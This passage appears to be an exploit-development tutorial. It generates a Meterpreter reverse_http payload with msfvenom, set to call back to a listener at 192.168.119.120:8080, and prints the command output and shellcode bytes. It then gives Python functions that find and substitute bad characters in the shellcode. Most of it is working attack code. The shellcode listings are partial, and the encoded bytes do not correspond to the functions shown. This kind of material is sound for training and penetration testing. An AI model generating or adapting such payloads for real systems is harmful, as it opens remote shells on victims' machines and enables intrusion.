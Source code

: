 To implement this technique, we’ll first generate a windows/meterpreter/reverse_http payload in Python format (**without encoding it**):
```bash
msfvenom -p windows/meterpreter/reverse_http LHOST=192.168.119.120 LPORT=8080 -f python -v shellcode
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 579 bytes
Final size of python file: 3234 bytes
shellcode =  b""
shellcode += b"\xfc\xe8\x8f\x00\x00\x00\x60\x31\xd2\x64\x8b"
shellcode += b"\x52\x30\x8b\x52\x0c\x8b\x52\x14\x89\xe5\x31"
[...]
```

After that, we create two Python functions that:
1. Detect the badchars (returning the array containing the index of the badchars inside the shellcode).
2. Replace the badchars for our byte replacements.

This leverages us with an encoded shellcode:
```python
from struct import pack

def mapBadChars(sh):
    BADCHARS = b"\x00\x09\x0a\x0b\x0c\x0d\x20" # Replace for your badchars  
    i = 0
    badIndex = []
    while i < len(sh):
        for c in BADCHARS:
            if sh[i] == c:
                badIndex.append(i)
        i=i+1
    return badIndex

def encodeShellcode(sh):
    BADCHARS = b"\x00\x09\x0a\x0b\x0c\x0d\x20"
    REPLACECHARS = b"\xff\x10\x06\x07\x08\x05\x1f"
    encodedShell = sh
    for i in range(len(BADCHARS)):
        encodedShell = encodedShell.replace(pack("B", BADCHARS[i]), pack("B", REPLACECHARS[i]))
    return encodedShell

shellcode =  b""
shellcode += b"\x2b\xc9\x66\x81\xe9\x6d\xff\xe8\xff\xff\xff"
shellcode += b"\xff\xc0\x5e\x81\x76\x0e\x8d\xb0\x1d\xfd\x83"
shellcode += b"\xee\xfc\xe2\xf4\x71\x58\x92\xfd\x8d\xb0\x7d"
shellcode += b"\x74\x68\x81\xcf\x99\x06\xe2\x2d\x76\xdf\xbc"
shellcode += b"\x96\xaf\x99\xbf\xaa\xb7\xab\x81\xe2\x76\xff"

badchars = mapBadChars(shellcode)
encodedShellcode = encodeShellcode(shellcode)
```
